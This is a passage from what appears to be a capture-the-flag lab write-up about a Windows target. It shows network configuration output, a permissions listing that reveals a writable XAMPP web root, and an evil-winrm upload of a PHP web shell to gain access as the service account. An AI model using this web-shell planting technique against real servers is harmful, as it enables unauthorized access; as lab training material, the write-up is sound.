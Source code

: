```
Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::3488:527f:9c75:ed51%14
   IPv4 Address. . . . . . . . . . . : 192.168.5.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::35
   IPv6 Address. . . . . . . . . . . : dead:beef::4a28:1d71:f91c:e791
   Link-local IPv6 Address . . . . . : fe80::956f:627e:2e13:326a%12
   IPv4 Address. . . . . . . . . . . : 10.129.166.255
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%12
                                       10.129.0.1
```

The tester found the `user.txt` goal.

The entirety of file system exploration will not be shown for sake of space.

## Vulnerability

The tester found an important directory that is writeable by `drbrown`.

```
*Evil-WinRM* PS C:\xampp\htdocs> icacls .
. NT AUTHORITY\LOCAL SERVICE:(OI)(CI)(F)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  BUILTIN\Users:(I)(OI)(CI)(RX)
  BUILTIN\Users:(I)(CI)(AD)
  BUILTIN\Users:(I)(CI)(WD)
  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

The tester has already discovered the Windows web server is running PHP. The web server root is writeable, a PHP file such as `predator.php` used before can be placed here to get access with the user running the web server. On Windows, this is typically a service account.

## Exploitation

The tester using `evil-winrm` to upload the `predator.php` file into the web server document root.

```
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> cd \xampp\htdocs
*Evil-WinRM* PS C:\xampp\htdocs> upload Public/predator.php

Info: Uploading /home/kali/Public/predator.php to C:\xampp\htdocs\predator.php

Data: 58272 bytes of 58272 bytes copied

Info: Upload successful!
```
